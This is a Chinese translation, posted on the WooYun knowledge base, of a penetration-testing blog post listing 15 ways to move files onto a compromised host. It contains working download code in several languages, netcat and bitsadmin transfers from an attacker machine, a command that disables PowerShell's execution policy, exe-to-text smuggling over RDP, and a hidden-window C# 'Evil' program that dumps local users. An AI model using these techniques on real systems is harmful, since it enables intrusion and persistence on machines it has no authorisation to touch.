

# 下载文件的 15 种方法

2014/06/19 18:19 | [爱小狐狸的小螃蟹](http://drops.wooyun.org/author/爱小狐狸的小螃蟹 "由 爱小狐狸的小螃蟹 发布") | [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章") | 占个座先 | 捐赠作者

from:https://www.netspi.com/blog/entryid/231/15-ways-to-download-a-file

在我们的入侵过程中，通常会需要向目标主机传送一些文件，来达到提权，维持控制等目的。这篇 blog 列举了 15 种下载文件的方法。

当然还有许多其它的办法来上传文件，下面的列表是 15 个我比较喜欢使用的技巧。

### PowerShell File Download

PowerShell 是一种 winodws 原生的脚本语言，对于熟练使用它的人来说，可以实现很多复杂的功能。

在 windows 2003 之中默认支持这种脚本。

下面这两条指令实现了从 Internet 网络下载一个文件。

```
$p = New-Object System.Net.WebClient
$p.DownloadFile("http://domain/file" "C:\%homepath%\file") 
```

下面这条指令是执行一个文件

```
PS C:\> .\test.ps1 
```

有的时候 PowerShell 的执行权限会被关闭，需要使用如下的语句打开。

```
C:\>powershell set-executionpolicy unrestricted 
```

### Visual Basic File Download

在 1998 年 Visual Basic 最终标准在 windows 上确定。下面的代码可以实现下载文件，虽然它的长度比 Powershell 长多了。

```
Set args = Wscript.Arguments
Url = "http://domain/file"
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", Url, False
xHttp.Send
with bStrm
    .type = 1 '
    .open
    .write xHttp.responseBody
    .savetofile " C:\%homepath%\file", 2 '
end with 
```

在 windows 中 Cscript 指令可以允许你执行 VBS 脚本文件或者对 script 脚本做一些设置。在 windows 7 中这个指令并不是必须要用到。 但是在 windows XP 中需要使用这条指令，如下所示。

C:>cscript test.vbs

以下四种语言都不是系统原生脚本，但是如果你的目标机器安装了这些语言，你就可以使用他们来下载文件。

### Perl File Download

Perl 是一门很吊的语言，使用它基本可以实现任何事情，用它实现文件下载也很简单。

```
#!/usr/bin/perl
use LWP::Simple;
getstore("http://domain/file", "file");

```

执行脚本文件是这样

```
root@kali:~# perl test.pl 
```

### Python File Download

Python 也是很受欢迎的主流脚本语言，代码清晰且简洁。

```
#!/usr/bin/python
import urllib2
u = urllib2.urlopen('http://domain/file')
localFile = open('local_file', 'w')
localFile.write(u.read())
localFile.close()

```

执行脚本文件是这样

```
root@kali:~# python test.py 
```

### Ruby File Download

Ruby 是一个面对对象的语言，Metasploit 框架就是用它来实现的，当然他也可以实现像下载文件这样的小任务。

```
#!/usr/bin/ruby
require 'net/http'
Net::HTTP.start("www.domain.com") { |http|
r = http.get("/file")
open("save_location", "wb") { |file|
file.write(r.body)
}
}

```

执行脚本文件是这样

```
root@kali:~# ruby test.rb 
```

### PHP File Download

PHP 作为一种服务端脚本，也可以实现下载文件这种功能。

```
<?php
        $data = @file("http://example.com/file");
        $lf = "local_file";
        $fh = fopen($lf, 'w');
        fwrite($fh, $data[0]);
        fclose($fh);
?>

```

执行脚本文件是这样

```
root@kali:~# php test.php 
```

下面的上传文件的方法，可能需要更多得步骤，但是有些情况下却可以绕过去多限制。

### FTP File Download

一般情况下攻击者使用 FTP 上传文件需要很多交互的步骤，下面这个 bash 脚本，考虑到了交互的情况，可以直接执行并不会产生交互动作。

```
ftp 127.0.0.1
username
password
get file
exit 
```

### TFTP File Download

在 Windows Vista 以及以后的版本中默认有 FTP，可以使用以下命令运行：

```
tftp -i host GET C:\%homepath%\file location_of_file_on_tftp_server 
```

### Bitsadmin File Download

Bitsadmin 是 Windows 命令行工具，用户可以使用它来创建下载或上传的任务。

```
bitsadmin /transfer n http://domain/file c:\%homepath%\file 
```

### Wget File Download

Wget 是 Linux 和 Windows 下的一个工具，允许非交互下载。

```
wget http://example.com/file 
```

### Netcat File Download

Netcat 在 linux 上的实例：

攻击者的电脑上输入：

```
cat file | nc -l 1234 
```

这个命令会将 file 的内容输出到本地的 1234 端口中，然后不论谁连接此端口，file 的内容将会发送到连接过来的 IP。

目标电脑上的命令：

```
nc host_ip 1234 > file 
```

这条命令将连接攻击者的电脑，接受 file 内容保存。

### Windows Share File Download

Windows shares 可以加载一个驱动器，然后用命令来复制文件。

加载远程驱动：

```
 net use x: \\127.0.0.1\share /user:example.com\userID myPassword 
```

### Notepad Dialog Box File Download

如果你有权限接入一台（远程连接或者物理机）电脑，但是你用户权限不允许打开浏览器，这种方式可以让你快速的从一个 URL 或者 UNC 路径当中下载文件。

1.打开 notepad 2.点击 file - open

在 File Name 当中输入完整的 URL：



Notepad 将会获取 URL 的内容展现出来。

### Exe to Txt, and Txt to Exe with PowerShell and Nishang

http://code.google.com/p/nishang/downloads/list

当需要把一个 exe 文件放到目标计算机上时，这可能是我最喜欢的工具，Nishang 使用 PowerShell 允许你吧一个 exe 转换成 hex，然后吧 hex 再转换成原来的 exe 文件。

把 exe 转成 hex 文件输入：

```
PS > .\ExetoText.ps1 evil.exe evil.txt 
```

打开 evil.txt 文件，复制内容，然后通过 RDP 的剪贴板复制进目标计算机。

把 hex 文件还原成 exe 文件输入：

```
PS > .\TexttoExe.ps1 evil.text evil.exe 
```

### Csc.exe to Compile Source from a File

C 的编译器（CSC）是包含在在 Windows 微软.NET 安装中的命令行编译器。

这个可执行文件的默认位置是以下情况：

```
C:\Windows\Microsoft.NET\Framework\version 
```

使用下面的示例代码，编译后的可执行文件将使用的 cmd.exe 来查询本地用户，然后将结果写入一个在 C:\Temp\users.txt 中。可以修改其中的代码，达到自己想要的目的，然后编译成 exe 文件。

```
public class Evil
{
   public static void Main()
   {
      System.Diagnostics.Process process = new System.Diagnostics.Process();
      System.Diagnostics.ProcessStartInfo startInfo = new System.Diagnostics.ProcessStartInfo();
      startInfo.WindowStyle = System.Diagnostics.ProcessWindowStyle.Hidden;
      startInfo.FileName = "cmd.exe";
      startInfo.Arguments = "/C net users > C:\\Temp\\users.txt";
      process.StartInfo = startInfo;
      process.Start();
   }
} 
```

代码编译命令：

```
csc.exe /out:C:\evil\evil.exe C:\evil\evil.cs 
```

### Wrap up

希望这篇 blog 对你有所帮助。

版权声明：未经授权禁止转载 [爱小狐狸的小螃蟹](http://drops.wooyun.org/author/爱小狐狸的小螃蟹 "由 爱小狐狸的小螃蟹 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [远程备份数据库和文件的方法](http://drops.wooyun.org/tips/783)
*   [深入了解 SQL 注入绕过 waf 和过滤机制](http://drops.wooyun.org/tips/968)
*   [Trying to hack Redis via HTTP requests](http://drops.wooyun.org/papers/3062)
*   [得到内网域管理员的 5 种常见方法](http://drops.wooyun.org/tips/646)
*   [Tor 隐身大法 —— 用 Tor 来帮助我们进行渗透测试](http://drops.wooyun.org/tips/1226)
*   [sqlmap 用户手册[续]](http://drops.wooyun.org/tips/401)